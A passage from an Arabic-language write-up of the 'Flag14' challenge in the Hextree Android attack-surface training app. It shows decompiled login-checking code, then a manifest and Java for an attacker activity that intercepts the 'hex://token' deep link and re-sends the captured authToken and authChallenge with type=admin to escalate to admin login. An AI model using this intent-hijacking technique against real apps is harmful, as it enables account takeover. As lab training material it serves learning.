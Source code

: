 ```java
            this.f.addTag(queryParameter);
            try {
                String encodeToString = Base64.getEncoder().encodeToString(MessageDigest.getInstance("SHA-256").digest(queryParameter2.getBytes()));
                if (encodeToString.equals("a/AR9b0XxHEX7zrjx5KNOENTqbsPi6IsX+MijDA/92w=")) {
                    if (queryParameter.equals("user")) {
                        Toast.makeText(this, "User login successful", 1).show();
                    } else if (queryParameter.equals("admin")) {
                        Log.i("Flag14", "hash: " + encodeToString);
                        this.f.addTag(queryParameter2);
                        Toast.makeText(this, "Admin login successful", 1).show();
                        success(this);
                    }
                }
            }
        }
```

لو مافيش intent وصل للـ activity هيعمل activity عشان يشغل login portal ويوديناللموقع اللي فيه زرار عشان نكمل تسجيل دخول ولما نضغط عليه المستخدم يكمل بأمان لأن intent هيتبعت للـ activity ده وهتسجل دخول كـ user.... بس احنا عايزين admin.....

#### الحل

عشان نجيب `admin` محتاجين نعدل الـ `type` parameter نعمل activity هيعترض ويبعته تاني مع intent جديد بالـ data اللي عايزينها بس نتأكد إنه uri مش بس نحطه كـ string يعني web101

```xml
<activity
android:name=".SecondActivity"
android:exported="true" >
<intent-filter>
  <action android:name="android.intent.action.VIEW"/>
  <category android:name="android.intent.category.DEFAULT"/>
  <category android:name="android.intent.category.BROWSABLE"/>
<data
    android:scheme="hex"
    android:host="token"/>
  </intent-filter>
</activity>
```

```java
Intent intent = getIntent();  
Utils.showDialog(this,intent);  
Uri data = intent.getData();  
//String query_parmaeter1 ="type = " + data.getQueryParameter("type");  
//String query_parmaeter2 = "authToken = " + data.getQueryParameter("authToken");  
//String query_parmaeter3 = "authChallenge = " +data.getQueryParameter("authChallenge");  
//Log.d("data", data.toString());  
//Log.d("query_parmaeter1", query_parmaeter1);  
//Log.d("query_parmaeter2", query_parmaeter2);  
//Log.d("query_parmaeter3", query_parmaeter3);  
  
String authToken = data.getQueryParameter("authToken");  
String authChallenge = data.getQueryParameter("authChallenge");  
  
Intent sendIntent = new Intent();  
sendIntent.setAction("android.intent.action.VIEW");  
sendIntent.setClassName("io.hextree.attacksurface","io.hextree.attacksurface.activities.Flag14Activity");  
sendIntent.setData(Uri.parse("hex://token?authToken="+authToken+"&type=admin&authChallenge="+authChallenge));  
startActivity(sendIntent);
```
